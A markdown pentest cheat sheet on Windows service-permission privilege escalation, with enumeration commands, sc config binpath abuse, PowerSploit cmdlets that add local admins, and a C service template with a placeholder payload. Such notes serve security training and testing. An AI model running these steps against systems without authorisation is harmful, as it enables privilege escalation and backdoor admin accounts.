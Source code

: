 # Windows Service Executable Permissions

- Check the permissions on service executables
- Check the permissions on them
- Replace the binary 

## Enumeration

- Find service binary paths

```
wmic service list full | find /i "pathname" | find /i /v "system32"
```

- Run icacls on the binary

```
icacls C:\Path\to\binary
```

- Or run accesschk64

```
accesschk64.exe -uwcv Everyone *
accesschk64.exe -wvuc C:\Path\To\Binary.exe
accesschk64.exe -wvuc <service name>

```

- Look for Write permissions 
- Look for SERVICE_CHANGE_CONFIG or SERVICE_ALL_ACCESS

- Or check powerup 

## Exploitation

- Stop the service
- Replace the binary with a malicious one
- restart the service

```
sc start <servicename>
```

### sc config

- When running accesscheck if you have SERVICE_CHANGE_CONFIG, or SERVICE_ALL_ACCESS
- Check for the BINARY_PATH_NAME parameter 

```
sc qc <service name>
```

- Change the path to a command you want to run or a malicious binary

```
sc config <service name> binpath= "COMMAND TO RUN"
```

### Powersploit

#### Invoke-ServiceAbuse

https://powersploit.readthedocs.io/en/latest/Privesc/Invoke-ServiceAbuse/

Adds a local user John with a password "Password123!":

```
Invoke-ServiceAbuse -Name <serviceName> 
```

- Adds a specified user to local admins group

```
Invoke-ServiceAbuse -Name <servicename> -UserName "Domain\User"
```

- Run a custom command

```
Invoke-ServiceAbuse -Name <servicename> -Command "..."
```

#### Write-ServiceBinary

https://powersploit.readthedocs.io/en/latest/Privesc/Write-ServiceBinary/

- Patches in the specified command to a pre-compiled C# service executable and writes the binary out to the specified ServicePath location.

- Add a local administrator john/Password123!

```
Write-ServiceBinary -Name <service>
```

- Add a specific user to local admins

```
Write-ServiceBinary -Name <service> -Username "Domain\User"
```

- Execute a specific command

```
Write-ServiceBinary -Name <service> -Command "..."
```

#### Install-ServiceBinary

- https://powersploit.readthedocs.io/en/latest/Privesc/Install-ServiceBinary/
- Replaces the service binary for the specified service with one that executes a specified command
- Add a local admin john/Password123!

```
Install-ServiceBinary -Name <service>
```

- Add a specific local admin

```
Install-ServiceBinary -Name <service> -UserName "Domain\user"
```

- Run a command 

```
Install-ServiceBinary -Name <service> -Command "..."
```

### Windows Service C

https://raw.githubusercontent.com/sagishahar/scripts/master/windows_service.c

- Modify the payload and compile

```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```



```
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("whoami > c:\\windows\\temp\\service.txt");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 

```

